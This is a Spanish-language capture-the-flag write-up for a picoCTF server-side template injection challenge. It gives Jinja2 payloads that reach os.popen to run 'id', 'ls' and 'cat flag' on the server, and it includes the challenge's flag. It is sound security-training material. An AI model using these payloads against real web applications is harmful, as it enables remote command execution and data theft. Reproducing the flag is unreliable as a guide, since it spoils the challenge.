 
---
### Descripción:
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

---
I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:51691/)!
### Pistas: 
```
1.- Server Side Template Injection.
```

### Solución:
- **Pagina web:**
![[Pasted image 20250415133440.png]]
- **Nos vamos a la siguiente pagina para saber mas sobre las inyecciones de server:**
	- [Server Side Template Injection](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/). 
- **La primera inyección que utilizaremos sera:**
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
- **Saldrá que estamos en root, ahora reemplazaremos id por ls:**
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
- **Nos aparecera una carpeta llamada flag, por lo tanto, ahora reemplazaremos ls por cat flag, y nos aparecera la bandera.**
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

### Bandera:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```
